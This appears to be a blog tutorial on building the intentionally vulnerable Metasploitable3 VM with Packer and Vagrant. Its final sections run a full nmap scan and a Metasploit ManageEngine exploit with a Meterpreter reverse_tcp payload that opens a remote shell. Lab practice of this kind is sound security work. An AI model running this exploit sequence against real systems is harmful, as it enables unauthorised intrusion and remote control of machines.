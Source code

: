 ```yaml
---
title: "Build a Metasploit Test Bench with Metasploitable3 & Vagrant"
excerpt: "How to install Metasploitable3 with Vagrant on macOS"
tags:
  - metasploit
  - metasploitable
  - exploit
  - vagrant
---
```


---
Metasploitable3 is a virtual machine that is built from the ground up with a large amount of security vulnerabilities. It is intended to be used as a target for testing exploits with metasploit.

It succeed to [Metasploitable2](https://community.rapid7.com/docs/DOC-1875), a pre-built ISO image also containing security vulnerabilities. The new version is fully built on Packer and Vagrant allowing you to customize it, especially by introducing different difficulty levels. Since the system is built on-demand, it allow someone to set a variable before the build and the resulting VM will have different services more open or locked down depending on what is selected.

## Install the Build Environment

To prepare the environment you need to install the following dependencies:

* [Homebrew](http://brew.sh)
* [Packer](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
* [VirtualBox 5.1.6](https://www.virtualbox.org/wiki/Download_Old_Builds_5_1)
* Internet connection

**Note** At the time of writing, the last release of VirtualBox (5.1.8) is breaking the provisioning process. You should use VirtualBox 5.1.6 or the last testing version. For more information, check this issue on GitHub: [https://github.com/rapid7/metasploitable3/issues/41](https://github.com/rapid7/metasploitable3/issues/41).
{: .notice--warning}

**Update** It seems that the previous issues was fixed in VirtualBox (5.1.12).
{: .notice--info}

As I am running a macOS system, I used Brew to install the dependencies.

```bash
# Install Packer
$ brew install packer

# Install Vagrant
$ brew install vagrant

# Install Vagrant Reload Plugin
$ vagrant plugin install vagrant-reload
```


Then clone the [Metasploitable3](https://github.com/rapid7/metasploitable3) repository from GitHub.

```bash
$ git clone https://github.com/rapid7/metasploitable3.git
$ cd metasploitable3
```

## Build the Base VM Image

Once your environment is setup, build the base VM image by running Packer. This will take a while the first time you run it since it has to download the OS installation ISO.

```bash
$ packer build windows_2008_r2.json

virtualbox-iso output will be in this color.

==> virtualbox-iso: Downloading or copying Guest additions
    virtualbox-iso: Downloading or copying: file:///Applications/VirtualBox.app/Contents/MacOS/VBoxGuestAdditions.iso
==> virtualbox-iso: Downloading or copying ISO
    virtualbox-iso: Downloading or copying: http://download.microsoft.com/download/7/5/E/75EC4E54-5B02-42D6-8879-D8D3A25FBEF7/7601.17514.101119-1850_x64fre_server_eval_en-us-GRMSXEVAL_EN_DVD.iso
    virtualbox-iso: Download progress: 1%
    virtualbox-iso: Download progress: 3%
    virtualbox-iso: Download progress: 5%

[...]

==> virtualbox-iso: Unregistering and deleting virtual machine...
==> virtualbox-iso: Running post-processor: vagrant
==> virtualbox-iso (vagrant): Creating Vagrant box for 'virtualbox' provider
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854-disk1.vmdk
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854.ovf
    virtualbox-iso (vagrant): Renaming the OVF to box.ovf...
    virtualbox-iso (vagrant): Using custom Vagrantfile: vagrantfile-windows_2008_r2.template
    virtualbox-iso (vagrant): Compressing: Vagrantfile
    virtualbox-iso (vagrant): Compressing: box.ovf
    virtualbox-iso (vagrant): Compressing: metadata.json
    virtualbox-iso (vagrant): Compressing: packer-virtualbox-iso-1478461854-disk1.vmdk
Build 'virtualbox-iso' finished.
```

## Provisioning with Vagrant

After the base Vagrant box is created you need to add it to your Vagrant environment.

```bash
$ vagrant box add windows_2008_r2_virtualbox.box --name=metasploitable3
==> box: Box file was not detected as metadata. Adding it directly...
==> box: Adding box 'metasploitable3' (v0) for provider: 
    box: Unpacking necessary files from: file:///Users/ax/Downloads/metasploitable3/windows_2008_r2_virtualbox.box
==> box: Successfully added box 'metasploitable3' (v0) for 'virtualbox'!
```

Then, to start the provisioning process, run the command `vagrant up`. This will start up the VM and run all of the installation and configuration scripts necessary to set everything up. This takes about 20 minutes.

```bash
$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Importing base box 'metasploitable3'...
==> default: Matching MAC address for NAT networking...
==> default: Setting the name of the VM: metasploitable3_default_1478815443621_32649
==> default: Clearing any previously set network interfaces...
==> default: Preparing network interfaces based on configuration...
    default: Adapter 1: nat
    default: Adapter 2: hostonly
==> default: Forwarding ports...
    default: 3389 (guest) => 3389 (host) (adapter 1)
    default: 22 (guest) => 2222 (host) (adapter 1)
    default: 5985 (guest) => 55985 (host) (adapter 1)
    default: 5986 (guest) => 55986 (host) (adapter 1)

[...]

```

If the provisioning went well, the Metasploitable3 is ready to be used.

## Check the Virtual Machine

To start exploiting the various services, I suggest you to check the open port on the virtual machine by using **Nmap**.

```bash
$ nmap -sV -p- 172.28.128.3

Starting Nmap 7.30 ( https://nmap.org )
Nmap scan report for 172.28.128.3
Host is up (0.0030s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
22/tcp    open  ssh           OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http          Microsoft IIS httpd 7.5
1617/tcp  open  nimrod-agent?
4848/tcp  open  ssl/http      Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8020/tcp  open  http          Apache httpd
8022/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8027/tcp  open  unknown
8080/tcp  open  http          Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
8282/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8383/tcp  open  ssl/http      Apache httpd
8484/tcp  open  http          Jetty winstone-2.8
8585/tcp  open  http          Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
9200/tcp  open  http          Elasticsearch REST API 1.1.1 (name: Inertia; Lucene 4.7)
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49263/tcp open  unknown
49264/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 257.28 seconds
```

As you can see, there are many services running on the VM. Let's try to get a root shell by exploiting one of them.

## Quick Exploit with Metasploit

I choose to exploit the ManageEngine server of the virtual machine by using the **exploit/windows/http/manageengine_connectionid_write** exploit module from Metasploit.

```bash
msf > use exploit/windows/http/manageengine_connectionid_write
msf exploit(manageengine_connectionid_write) > show options 

Module options (exploit/windows/http/manageengine_connectionid_write):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      8020             yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path for ManageEngine Desktop Central
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ManageEngine Desktop Central 9 on Windows


msf exploit(manageengine_connectionid_write) > set RHOST 172.28.128.3
RHOST => 172.28.128.3
msf exploit(manageengine_connectionid_write) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(manageengine_connectionid_write) > set LHOST 172.28.128.4
LHOST => 172.28.128.4

msf exploit(manageengine_connectionid_write) > exploit 

[*] Started reverse TCP handler on 172.28.128.4:4444 
[*] Creating JSP stager
[*] Uploading JSP stager WJsoA.jsp...
[*] Executing stager...
[*] Sending stage (957999 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.4:4444 -> 172.28.128.3:49522)
[+] Deleted ../webapps/DesktopCentral/jspf/WJsoA.jsp

meterpreter > getuid 
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > 
```

Yay ! We got a remote Meterpreter shell. Now it's your turn, have fun !


## Resources

* [Official Metasploitable3 Repository](https://github.com/rapid7/metasploitable3)
* [Metasploitable3 Wiki](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
* [VirtualBox (Old Builds)](https://www.virtualbox.org/wiki/Download_Old_Builds_5_1)
* [Packer.io](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
